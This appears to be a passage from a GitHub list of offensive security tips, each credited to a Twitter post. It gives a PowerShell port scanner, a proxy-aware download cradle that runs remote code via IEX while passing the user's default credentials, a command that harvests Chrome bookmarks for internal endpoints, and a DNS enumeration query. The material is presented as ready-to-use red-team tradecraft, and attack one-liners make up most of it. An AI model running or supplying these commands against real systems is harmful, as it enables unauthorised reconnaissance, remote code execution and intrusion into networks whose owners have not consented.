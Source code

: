 **Credit:** [@GuhnooPlusLinux](https://twitter.com/GuhnooPlusLinux)

**Link:** [Twitter](https://twitter.com/GuhnooPlusLinux/status/1607473627922063360)

### [🔙](#tool-list)Live off the land port scanner

```bash
0..65535 | % {echo ((new-object Net.Sockets.TcpClient).Connect(<tgt_ip>,$_)) "Port $_ open"} 2>$null
```

**Description:** _'When possible, live off the land rather than uploading tools to machines (for many reasons). PowerShell/.NET help. Ex: simple port scanner in Powershell.'_

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1605060950339588096)

### [🔙](#tool-list)Proxy aware PowerShell DownloadString

```bash
$w=(New-Object Net.WebClient);$w.Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;IEX $w.DownloadString("<url>")
```

**Description:** _'Most large orgs are using web proxies these days. The standard PowerShell download cradle is not proxy aware. Use this one.'_

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1596192664398966785)

### [🔙](#tool-list)Looking for internal endpoints in browser bookmarks

```bash
type "C:\Users\%USERNAME%\AppData\Local\Google\Chrome\User Data\Default\Bookmarks.bak" | findstr /c "name url" | findstr /v "type"
```

**Description:** _'You'd be surprised what you can find out from a user's bookmarks alone. Internal endpoints they can access, for instance.'_

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1595488676389171200)

### [🔙](#tool-list)Query DNS records for enumeration

```bash
Get-DnsRecord -RecordType A -ZoneName FQDN -Server <server hostname>
```

**Description:** _'Enumeration is 95% of the game. However, launching tons of scans to evaluate the environment is very loud. Why not just ask the DC/DNS server for all DNS records?'_

**Credit:** [@Alh4zr3d](https://twitter.com/Alh4zr3d)

**Link:** [Twitter](https://twitter.com/Alh4zr3d/status/1587132627823181824)
